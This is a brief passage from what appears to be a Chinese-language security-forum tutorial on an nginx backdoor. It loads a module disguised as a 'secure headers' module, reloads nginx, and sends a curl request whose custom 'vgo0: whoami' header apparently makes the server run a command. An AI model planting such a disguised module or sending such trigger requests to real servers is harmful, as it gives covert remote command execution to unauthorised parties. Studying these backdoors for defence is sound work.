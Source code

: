 ```cpp
load_module /usr/local/nginx/conf/modules/ngx_http_secure_headers_module.so
```

随后重载nginx，执行`curl -H "vgo0: whoami" [<http://192.168.142.137>](<http://192.168.142.137/>)`

![Untitled15.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-172e6553abae0b7b4d593b3517a113de3a421f40.png)

以上~
---